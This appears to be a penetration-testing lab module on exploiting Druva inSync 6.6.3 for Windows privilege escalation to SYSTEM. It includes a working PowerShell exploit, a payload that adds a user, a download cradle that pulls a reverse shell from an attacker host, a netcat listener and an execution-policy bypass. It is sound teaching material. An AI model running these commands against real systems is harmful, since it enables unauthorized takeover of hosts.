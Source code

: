 
---

We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. It is common to encounter a multitude of different applications and services on Windows workstations during our assessments. Let's look at an instance of a vulnerable service that we could come across in a real-world environment. Some services/applications may allow us to escalate to SYSTEM. In contrast, others could cause a denial-of-service condition or allow access to sensitive data such as configuration files containing passwords.

---
#### Enumerating Installed Programs

As covered previously, let's start by enumerating installed applications to get a lay of the land.

```cmd-session
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

The output looks mostly standard for a Windows 10 workstation. However, the `Druva inSync` application stands out. A quick Google search shows that version `6.6.3` is vulnerable to a command injection attack via an exposed RPC service. We may be able to use [this](https://www.exploit-db.com/exploits/49211) exploit PoC to escalate our privileges. From this [blog post](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) which details the initial discovery of the flaw, we can see that Druva inSync is an application used for “Integrated backup, eDiscovery, and compliance monitoring,” and the client application runs a service in the context of the powerful `NT AUTHORITY\SYSTEM` account. Escalation is possible by interacting with a service running locally on port 6064.

#### Enumerating Local Ports

Let's do some further enumeration to confirm that the service is running as expected. A quick look with `netstat` shows a service running locally on port `6064`.

```cmd-session
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

#### Enumerating Process ID

Next, let's map the process ID (PID) `3324` back to the running process.

```powershell-session
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

#### Enumerating Running Service

At this point, we have enough information to determine that the Druva inSync application is indeed installed and running, but we can do one last check using the `Get-Service` cmdlet.

```powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

---

## Druva inSync Windows Client Local Privilege Escalation Example

#### Druva inSync PowerShell PoC

With this information in hand, let's try out the exploit PoC, which is this short PowerShell snippet.

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

#### Modifying PowerShell PoC

For our purposes, we want to modify the `$cmd` variable to our desired command. We can do many things here, such as adding a local admin user (which is a bit noisy, and we want to avoid modifying things on client systems wherever possible) or sending ourselves a reverse shell. Let's try this with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script to our attack box, and rename it something simple like `shell.ps1`. Open the file, and append the following at the bottom of the script file (changing the IP to match our address and listening port as well):

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modify the `$cmd` variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

#### Starting a Python Web Server

Next, start a Python web server in the same directory where our `shell.ps1` script resides.

```shell-session
slomkm@htb[/htb]$ python3 -m http.server 8080
```

#### Catching a SYSTEM Shell

Finally, start a `Netcat` listener on the attack box and execute the PoC PowerShell script on the target host (after [modifying the PowerShell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy) with a command such as `Set-ExecutionPolicy Bypass -Scope Process`). We will get a reverse shell connection back with `SYSTEM` privileges if all goes to plan.

```shell-session
slomkm@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system


PS C:\WINDOWS\system32> hostname

WINLPE-WS01
```

---
## Moving On

This example shows just how risky it can be to allow users to install software on their machines and how we should always enumerate installed software if we land on a Windows server or desktop host. Organizations should restrict local administrator rights on end-user machines following the principle of least privilege. Furthermore, an application whitelisting tool can help ensure that only properly vetted software is installed on user workstations.